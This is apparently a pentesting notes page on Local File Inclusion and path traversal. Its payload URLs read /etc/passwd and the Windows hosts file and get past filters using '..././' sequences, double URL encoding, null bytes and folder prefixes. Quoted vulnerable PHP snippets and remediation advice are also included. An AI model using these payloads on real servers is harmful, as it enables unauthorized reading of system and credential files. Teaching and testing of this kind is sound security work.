```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Local File Inclusion

Also known as LFI, when an attacker can get a website to include a file that was not intended to be an option for the application.

Following, we find some ways to leverage this vulnerability:

* Check if parameters in the URL receive the name of a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
#It's searching for a file
http://$url/$query?$param=hola.php
#We can try to access the system files
http://$url/$query?$param=/etc/passwd
```
{% endcode %}

***

* When it doesn't work directly, we can try to get to the root folder. This method is also known as _Path Traversal_.

{% tabs %}
{% tab title="On Linux server" %}
{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../etc/passwd
```
{% endcode %}
{% endtab %}

{% tab title="On Windows server" %}
{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../../WINDOWS/system32/drivers/etc/hosts
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="info" %}
It is useful to put as many `../` as possible to get to the root folder
{% endhint %}

***

* Sometimes, we will need to check the page code to see the input conditions.

{% tabs %}
{% tab title="Case 1" %}
The code is searching for a file whose name starts with _file_

{% code title="Example source code" lineNumbers="true" %}
```php
...
$file = str_replace( array( "../", "..\\" ), "", $file );
...
```
{% endcode %}

We can use the `\` to bypass this verification

{% code lineNumbers="true" %}
```bash
http://$url/$query?$param=..\/..\/..\/..\/etc/passwd
```
{% endcode %}

Also if we use `..././` the code will do the replacement and leave us anyway with `../`, and we will also bypass this verification

{% code lineNumbers="true" %}
```bash
http://$url/$query?$param=..././..././..././..././etc/passwd
http://$url/$query?$param=....//....//....//etc/passwd
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
The code is searching for a file whose name starts with _file_

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
...
```
{% endcode %}

We can set our input to start with a specific name or route to folder, to bypass this verification

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">http://$url/$query?$param=file/../../../../etc/passwd
<strong>http://$url/$query?$param=/var/www/images/../../../../etc/passwd
</strong></code></pre>
{% endtab %}

{% tab title="Case 3" %}
When stripped any directory traversal sequences, we can URL encode, or even double URL encode, the `../` characters

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$param=../../../etc/passwd #This don't work
http://$url/$query?$param=..%2f..%2f..%2fetc%2fpasswd #But this could
http://$url/$query?$param=..%252f..%252f..%252fetc%252fpasswd #Or even this
```
{% endcode %}
{% endtab %}

{% tab title="Case 4" %}
If needed to end with an expected file extension, we can use a null byte (`%00`) to bypass it

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$param=../../../etc/passwd%00.png   #Example
```
{% endcode %}
{% endtab %}
{% endtabs %}

## <mark style="color:blue;">Remediation Actions</mark>

* Avoid passing user-supplied input to filesystem APIs
  * Validate the user input before processing it, for example, compare the user input with a whitelist of permitted values
* Sanitize input by allowing only expected characters like alphanumeric only, no dots, slashes, or protocols
* Ensure proper file path resolution and canonicalize the path
